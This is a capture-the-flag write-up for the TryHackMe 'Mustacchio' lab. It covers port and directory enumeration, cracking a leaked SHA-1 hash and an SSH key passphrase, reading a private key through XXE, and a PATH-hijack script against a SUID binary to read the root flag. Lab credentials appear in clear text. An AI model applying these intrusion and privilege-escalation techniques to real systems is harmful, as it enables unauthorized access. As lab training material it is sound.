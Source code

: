 # Mustacchio CTF [TryHackMe](https://tryhackme.com/room/mustacchio)


![Mustacchio](./assets/Mustacchio.png)

---

```bash
$ export IP=10.10.203.61
```

---

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap

$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.html,.jpg,.png -o gobuster/dir_med_initial.txt
```

Ports:
```
22 ssh
80 http
```

Checking out the landing page of the website, I notice that there is some directory named `custom` and accessing `js` in that directory leads to a file `users.bak` and when running strings through it, it is evident that this is some sort of SQLite Configuration with a user `admin` and their password hash.

Running the hash through hashid it indicates `SHA-1` and this is confirmed when hashcat quickly cracks it using the following command:

```bash
$ hashcat -m 100 '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b' ~/wordlists/passwords/rockyou.txt
```

![cracked hash](./assets/cracked_hash.png)

We now have a password for some sort of a database
`admin:bulldog19`

I couldn't find anything of value, tried a bit of SQL injection and php trickhousery in the cookie panels but nothing was really working for me. I then fired up nmap again to check all ports in case there was something I had missed from my previous scan

```bash
$ nmap -p- -T5 -v $IP -oN nmap/all_ports.nmap
```

---

### Finding access to the machine

And we find a new port: `8765` which is named as being `ultraseek-http`.
And viola! We have some sort of admin sign-in page and using the credentials we got earlier, we can now access the admin page.

We have some sort of xml we can input in the comment section of the admin page. If we take a look at the source code, it points to something about barry's ssh keys (something we can probably nick with XXE) and an example for the xml. Using a simple payload file for xml, we can now access files from the machine.
Critically we want to access his ssh key, located typically in `/home/<<USER>>/.ssh/id_rsa`, and using this path, we find barry's ssh key!
But it is passphrase protected...
No matter, it is time for JtR
First we generate a hash for JtR using `ssh2john`

```bash
$ ssh2john.py id_rsa > id_rsa.hash
# Followed by:
$ john -wordlist=~/wordlists/passwords/rockyou.txt id_rsa.hash
```

And we manage to crack the hash! `urieljames`!
It's also important to note that you _could not_ brute force it with hydra, as the machine cannot be accessed with barry's machine password.

I also did access the `user.txt` flag using the xml exploit just to spare me from swapping out of the terminal to the broswer.

---

### Priviledge Escalation

Onwards to privesc. I initially tried to load linpeas.sh onto the machine but it just was not playing nice, so I decided to do it _manually_, bleugh.
So I kick off with the easiest (and thankfully correct) option of trying to locate SUIDs.

```bash
$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
```

Looking at the results of this, I notice a strange (custom binary) that is owned by root but executable by anyone located in joe's home directory.
Running strings through it, I notice that `tails` is being executed without its absolute path.
It is time for a PATH exploit!
I first navigate back to my home directory and write a script named `tails`

```bash
#!/bin/bash

cat /root/root.txt > /home/barry/root.txt
```
Ordinarily, you would want to become the root user but I was not in the mood ;). So instead I copied the root flag over to my directory for ease of viewing.
Remembering to make it executable by

```bash
$ chmod +x tails
# Now add it to PATH for priority
$ export PATH="$(pwd):$PATH"
```

And we now have the root flag!

**_Complete!_**

![Moustache Hacker](https://lovelace-media.imgix.net/getty/162913476.jpg)
